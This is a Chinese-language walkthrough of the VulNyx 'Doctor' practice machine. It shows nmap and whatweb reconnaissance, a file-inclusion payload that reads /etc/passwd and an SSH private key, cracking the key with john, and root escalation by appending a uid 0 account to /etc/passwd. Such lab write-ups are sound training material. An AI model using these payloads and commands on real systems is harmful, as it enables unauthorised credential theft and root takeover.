 # 环境

来自[Vulny_Doctor](https://vulnyx.com/#Doctor)，文件包含获取用户名和密钥，爆破密码，/etc/passwd写入新账号提权

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.19
```

![image-20240909083651497](image/image-20240909083651497.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.19
```

![image-20240909083757777](image/image-20240909083757777.png)

## 服务详情

```bash
sudo nmap -sVC -O -p22,80 192.168.10.19
```

![image-20240909083931849](image/image-20240909083931849.png)

## 指纹识别

```bash
whatweb http://192.168.10.19
```

![image-20240909084105600](image/image-20240909084105600.png)

# web渗透

## 存在文件包含

访问`http://192.168.10.19/doctor-item.php?include=../../../etc/passwd`，得到用户名

获取密钥访问`http://192.168.10.19/doctor-item.php?include=../../../home/admin/.ssh/id_rsa`

![image-20240909084925444](image/image-20240909084925444.png)

```bash
wget http://192.168.10.19/doctor-item.php?include=../../../home/admin/.ssh/id_rsa
chmod 600 id rsa
ssh2john id_rsa > id1
john id1 --wordlist=/usr/share/wordlist/rockyou.txt
账号：admin
密码：unicorn
```

![image-20240909085312961](image/image-20240909085312961.png)

## 提权

```bash
openssl passwd  #生成密码
echo 'abc:$1$f/wLSpW.$vwdkY3O9y1kfIbVzCNed8/:0:0:abc:/root:/bin/bash' >> /etc/passwd  #写入账户
su abc
```

![image-20240909090551412](image/image-20240909090551412.png)